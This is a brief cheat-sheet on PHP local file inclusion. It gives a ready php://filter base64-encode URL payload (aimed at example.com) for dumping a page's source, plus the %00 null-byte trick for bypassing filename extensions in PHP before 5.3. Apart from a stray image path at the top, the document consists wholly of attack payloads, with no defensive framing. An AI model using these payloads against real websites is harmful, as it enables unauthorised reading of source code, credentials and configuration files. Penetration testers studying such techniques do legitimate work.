 # php LFI

## include PHP filter base 64 encode
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=
```

## filename extension nullbyte tecnhique - below php 5.3
%00
